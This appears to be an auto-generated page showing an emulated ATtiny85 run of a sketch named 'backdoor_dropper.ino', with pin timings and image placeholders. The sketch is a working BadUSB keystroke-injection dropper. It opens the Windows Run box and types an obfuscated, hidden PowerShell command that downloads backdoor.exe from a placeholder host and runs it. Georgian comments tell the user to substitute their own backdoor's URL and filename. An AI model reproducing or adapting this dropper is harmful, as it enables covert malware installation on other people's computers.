
Simulated run of this sketch. Board: ATtiny85, built with avr-gcc and run on an emulated ATtiny85. Parts: output pins drawn as LEDs (lit = HIGH).

Above: at 0.1 s.
At 104.0 s:

Timing chart, 0 to 105.5 s (numbered marks = the images above):


Measured:
- by itself, PB1: LOW → HIGH at 4.5 s, → LOW 90.0 s later, → HIGH 9.5 s later

The sketch:

backdoor_dropper.ino
```cpp
#include "DigiKeyboard.h"
void setup() {
  pinMode(1, OUTPUT);
}
void loop() {
  DigiKeyboard.update();
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(3000);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(500);
  DigiKeyboard.println(F("powershell -windowstyle hidden -command (N'ew'-Ob'j'ect Sy's'tem.Net.WebClient).DownloadFile(\\\"https://example.com/backdoor.exe\\\",\\\"$env:UserProfile\\desktop\\backdoor.exe\\\");in'v'oke-item $env:UserProfile\\desktop\\backdoor.exe"));
  DigiKeyboard.delay(500);
  digitalWrite(1, HIGH);
  DigiKeyboard.delay(90000);
  digitalWrite(1, LOW);
  DigiKeyboard.delay(5000);
}
// [Line 11]  - https://example.com/backdoor.exe -ს მაგივრად ჩაწერეთ თქვენი ბექდორის მისამართი,
// [Line 11]  - backdoor.exe -ს მაგივრად გაწერეთ თქვენი ბექდორის filename
```
